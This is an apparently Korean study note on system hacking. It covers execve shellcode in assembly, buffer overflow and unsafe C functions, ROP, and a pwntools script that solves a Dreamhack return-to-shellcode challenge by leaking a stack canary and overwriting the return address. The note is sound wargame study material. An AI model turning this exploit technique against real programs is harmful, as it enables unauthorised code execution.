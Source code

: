   ```
    mov rax, 0x7361622f6e69622f
    push rax
    mov rdi, rsp  ; (1) rdi = "/bin/bash"
    xor rsi, rsi  ; (2) rsi = NULL
    xor rdx, rdx  ; (2) rdx = NULL
    mov rax, 0x3b ; (3) rax = execve
    syscall       ; execve("/bin/bash", null, null)
  ```

### buffer overflow
- 프로그램에 입력을 위해 지정된 버퍼를 초과하여 입력값을 집어넣어 버퍼 다음에 할당된 메모리의 값을 덮어쓰는 행위
- `scanf("%s",buf)`는 입력값의 갯수 제한이 없기 때문에 buffer overflow에 취약하므로 절대 사용하면 안되는 형태 중 하나이다.
  - scanf와 유사하게 strcpy, strcat, sprintf 도 길이에 제약이 없는 함수로, 대신 strncpy, strncat, snprintf, fgets, memcpy 를 사용하는것이 권장된다.
- C 계열 언어에서 문자열(string)을 처리할 때 문자열의 종결을 null('\0') 문자로 판단하는데, 문자열 끝에 null이 존재하지 않는 경우 문자열보다 더 뒷편의 주소를 참조하게 될 수 있고, 이를 OOB(out of boundary) 취약점이라 한다.

### ROP(Return Oriented Programming)
- gadget 이란 어셈블리어에서 ret 명령어 앞에 오는 코드 조각으로, 코드의 실행을 제어한다.
- gadget 을 사용하여 함수의 호출 혹은 인자를 조작하는 공격 방식을 ROP라 한다.
- payload를 return gadget(리턴 가젯) 으로 채워지기에 `ROP chain` 이라고도 한다.

#### Return to Shellcode
- buffer overflow를 통해 버퍼에 shell 함수 실행 코드를 삽입하고 STL 에서 return 주소를 해당 버퍼의 주소로 치환하여 shell code를 실행하는 해킹 기법
- [문제](https://dreamhack.io/wargame/challenges/352) 풀이 예시
  ```
  from pwn import *

  def slog(n, m): return success(': '.join([n, hex(m)]))

  p = process('./r2s')
  #p = remote("host3.dreamhack.games", "11171")

  context.arch = 'amd64'

  # [1] Get information about buf
  p.recvuntil(b'Address of the buf: ')
  buf = int(p.recvline()[:-1], 16) # remote '\n'
  slog('Address of buf', buf)

  p.recvuntil(b'buf and $rbp: ')
  buf2sfp = int(p.recvline().split()[0]) # another way to remove '\n'
  buffer_to_canary = buf2sfp - 8 # canary is in rbp+8, so buf + buffer_to_canary - 8 is address of canary
  slog('buf <=> sfp', buf2sfp)
  slog('buf <=> canary', buffer_to_canary)

  # [2] Leak canary value
  payload = b'A'*(buffer_to_canary + 1) # (+1) because of the first null-byte

  p.sendafter(b'Input:', payload)
  p.recvuntil(payload)
  canary = b'\x00'+p.recvn(7)
  slog('Canary', u64(canary))

  # [3] Exploit
  shell_code = asm(shellcraft.sh())
  print('Length of Shell Code:' , len(shell_code))
  payload = shell_code.ljust(buffer_to_canary, b'A') + canary + b'B' * 0x8 + p64(buf)
  # 버퍼에 쉘 코드를 넣고, 남는 공백은 아무 문자로 메꾼다. 그 후 카나리를 잘 덮고 SFP는 아무 숫자나 채워넣고 리턴 주소를 버퍼 주소로 덮어씀
  # gets() receives input until '\n' is received
  ```